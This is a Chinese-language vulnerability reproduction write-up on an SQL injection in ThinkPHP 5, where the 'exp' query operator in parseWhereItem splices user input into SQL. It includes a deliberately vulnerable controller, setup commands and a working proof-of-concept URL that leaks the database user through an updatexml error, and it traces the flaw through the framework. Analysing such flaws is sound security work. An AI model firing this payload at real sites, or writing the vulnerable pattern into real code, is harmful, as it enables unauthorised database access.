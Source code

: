Thinkphp5 全版本
================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **select**
方法注入）。次漏洞存在于 **Mysql** 类的 **parseWhereItem**
方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL**
语句，导致 **SQL注入漏洞** 的产生。

二、漏洞影响
------------

ThinkPHP5全版本

三、复现过程
------------

### 漏洞环境

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.0.10 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.4.0",
        "topthink/framework": "5.0.10"
    },

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username');
            $result = db('users')->where('username','exp',$username)->select();
            return 'select success';
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'mochazz');

### poc

    http://0-sec.org:8000/index/index/index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)#

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](./resource/Thinkphp5全版本sql注入漏洞/media/rId26.png)

### 漏洞分析

由于官方根本不认为这是一个漏洞，而认为这是他们提供的一个功能，所以官方并没有对这个问题进行修复。但笔者认为这里的数据过滤还是存在问题的，所以我们还是来分析分析这个漏洞。

程序默认调用 **Request** 类的 **get** 方法中会调用该类的 **input**
方法，但是该方法默认情况下并没有对数据进行很好的过滤，所以用户输入的数据会原样进入框架的
**SQL** 查询方法中。首先程序先调用 **Query** 类的 **where** 方法，通过其
**parseWhereExp** 方法分析查询表达式，然后再返回并继续调用 **select**
方法准备开始构建 **select** 语句。

![2.png](./resource/Thinkphp5全版本sql注入漏洞/media/rId28.png)

上面的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql** 类，该类继承于 **Builder** 类，所以接着会调用 **Builder** 类的
**select** 方法。在 **select** 方法中，程序会对 **SQL**
语句模板用变量填充，其中用来填充 **%WHERE%**
的变量中存在用户输入的数据。我们跟进这个 **where**
分析函数，会发现其会调用生成查询条件 **SQL** 语句的 **buildWhere**
函数。

![3.png](./resource/Thinkphp5全版本sql注入漏洞/media/rId29.png)

继续跟进 **buildWhere** 函数，发现用户可控数据又被传入了
**parseWhereItem** where子单元分析函数。我们发现当操作符等于 **EXP**
时，将来自用户的数据直接拼接进了 **SQL** 语句，最终导致了
**SQL注入漏洞** 。

![4.png](./resource/Thinkphp5全版本sql注入漏洞/media/rId30.png)

### 漏洞修复

未修复。

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![5.png](./resource/Thinkphp5全版本sql注入漏洞/media/rId33.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
